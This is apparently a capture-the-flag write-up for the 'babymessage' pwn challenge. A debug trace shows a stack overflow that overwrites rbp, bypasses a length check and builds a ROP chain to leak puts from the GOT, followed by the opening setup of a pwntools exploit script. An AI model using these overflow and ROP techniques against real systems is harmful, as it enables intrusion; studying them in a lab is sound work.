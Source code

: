 ```shell
[DEBUG] Received 0x9 bytes:
    'choice: \n'
[DEBUG] Sent 0x2 bytes:
    '2\n'
[DEBUG] Received 0xa bytes:
    'message: \n'
[DEBUG] Sent 0x10 bytes:
    00000000  41 41 41 41  41 41 41 41  d4 10 60 00  00 00 00 00  => overflow rbp to 0x6010d4(name+4)
    
# reg
rsi  0x7ffc9311ac88 -> 0x4141414141414141 ('AAAAAAAA')
rbp  0x7ffc9311ac90 -> 0x6010d4 (mm+20) 

#assembly
0x400985 <work+107>    cmp    dword ptr [rbp - 4], 0x100 -> rbp-4 -> name
0x40098c <work+114>    jle    work+123 <0x400995> ->pass the check

# modify the length of strncpy
<leave_message+84>     call   strncpy@plt <0x400660>
dest: 0x1c06260 -> 0x4141414141414141 ('AAAAAAAA')
src: 0x7ffc9311ac88 -> 0x4141414141414141 ('AAAAAAAA')
n: 0x30

# stack_overflow to got
rsp  0x7ffc9311ac98 -> 0x400ac3 (__libc_csu_init+99) <- pop    rdi
     0x7ffc9311aca0 -> 0x601020 (_GLOBAL_OFFSET_TABLE_+32) -> 0x7f207b79fa30 (puts) <- push   r13
     0x7ffc9311aca8 -> 0x400670 (puts@plt) -> jmp    qword ptr [rip + 0x2009aa]
     0x7ffc9311acb0 -> 0x40091a (work) -> push   rbp
     0x7ffc9311acb8 -> 0x400a4f (main+114) -> mov    eax, 0
```

## POC

```python
#coding:UTF-8

from pwn import *

def lauch_gdb(p):
    context.log_level = 'debug'
    context.terminal = ['tmux', 'splitw', '-h']
    gdb.attach(p)

def lauch_with_gdb(filename):
    context.log_level = 'debug'
    context.terminal = ['tmux', 'splitw', '-h']
    p=gdb.debug(filename,"break main")
    return p

p = process('./babymessage')
elf = ELF('./babymessage')
libc = ELF('./libc-2.27.so')
#work_addr = 0x40093F -> libc2.23可以成功，但2.27会crash
main_addr = 0x40091A

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
rdi_ret = 0x400ac3

#lauch_gdb(p)
#pause()

```
